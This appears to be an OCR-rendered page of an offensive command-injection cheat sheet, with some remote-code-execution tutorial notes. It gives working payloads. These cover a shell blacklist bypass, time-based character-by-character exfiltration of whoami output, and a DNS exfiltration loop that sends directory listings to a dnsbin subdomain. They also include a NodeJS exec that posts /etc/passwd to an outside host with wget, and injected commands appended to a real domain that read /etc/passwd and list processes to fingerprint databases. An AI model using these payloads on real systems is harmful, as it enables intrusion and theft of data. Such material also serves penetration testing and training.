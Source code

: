 #####   Bypass zsh/bash/sh blacklist
                - echo $0
                - -> /usr/bin/zsh
                - echo whoami|$0

## Time based data exfiltration

```
- Extracting data : char by char
               swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real	0m5.007s
user	0m0.000s
sys	0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real	0m0.002s
user	0m0.000s
sys	0m0.000s
```

## DNS based data exfiltration
Based on the tool from https://github.com/HoLyVieR/dnsbin also hosted at dnsbin.zhack.ca
                - 1. Go to http://dnsbin.zhack.ca/
                - 2. Execute a simple 'ls'
                - for i in $(ls /) ; do host "http://$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
## Environment based
            - NodeJS Commands execution
               require('child_process').exec('wget --post-data+"x=$(cat /etc/passwd)"+HOST')
## Thanks to
#####   SECURITY CAFÉ - Exploiting Timed Based RCE
               https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/
                - https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/
#####   Bug Bounty Survey - Windows RCE spaceless
               https://twitter.com/bugbsurveys/status/860102244171227136
                - https://twitter.com/bugbsurveys/status/860102244171227136
#####   No PHP, no spaces, no $, no { }, bash only - @asdizzle
               https://twitter.com/asdizzle_/status/895244943526170628
                - https://twitter.com/asdizzle_/status/895244943526170628
# Stuff to do with RCE:
## Section 9: Database Reconnaissance
#####   Discover the Database Engine using the /etc/passwd file
                - www.cnn.com; cat /etc/passwd | egrep -i '(postgres|sql|db2|ora)'
                - MySQL is the database engine
#####   Discover the Database Engine using the "ps" command
                - Notes(FYI):
                - Let's use the "ps" command to search for the following process strings: postgres, sql, db2 and ora.
                - Instructions:
                - Hostname/IP:
                - www.cnn.com; ps -eaf | egrep -i '(postgres|sql|db2|ora)'
                - View your Results
                - The mysqld (daemon) is running.
## Section 10: Database Interrogation